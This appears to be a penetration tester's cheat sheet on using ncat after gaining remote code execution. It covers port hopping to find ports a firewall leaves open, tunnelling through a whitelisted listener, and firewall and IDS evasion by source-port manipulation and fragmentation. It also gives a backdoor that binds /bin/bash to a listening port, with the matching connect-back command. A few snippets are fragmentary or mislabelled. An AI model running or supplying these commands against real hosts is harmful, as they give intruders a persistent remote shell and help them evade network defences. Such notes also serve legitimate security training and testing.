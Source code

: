 ## Port Hopping
Have RCE on target AND ncat bin
Setup Listener on Attack box
```bash
ncat -lvnp $PORT
```
RCE back to listener:
```bash
ncat $IP $PORT
```
Cycle through the ports to enumerate firewall blacklisting. 
Use non blocked ports

## Port forward/tunneling/mapping
[[Port-Redirection-And-Tunnelling]], but with ncat
Defined as: Fowarding packet sent to one destination port to another destination port.
Either `-c` or `--sh-exec`
Target server should be replaced with local host
the `PORT` is the destination, `LISTENER` is the tunnel port firewall whitelisted 
```bash
ncat -lvnp $LISTENER -c "ncat TARGET_SERVER $PORT"
```

## Using Backdooring with non-standard ports
Create a backdoor via specified port 
Server Backdoor:
```bash
ncat -lvnp $LISTENER -e /bin/bash
```
On attackbox:
```bash
ncat $IP $PORT
```

## Manipulate Source TCP/UDP port
```lua
(-sS | -sT | -sU) -g $PORT
```
 ncat bypass IPS/IDS with just the right connection port or protocol
```bash
ncat -u $IP $PORT
ncat -ulvnp $PORT
```
Session splicing
```bash
-f 
-ff
-mtu
```
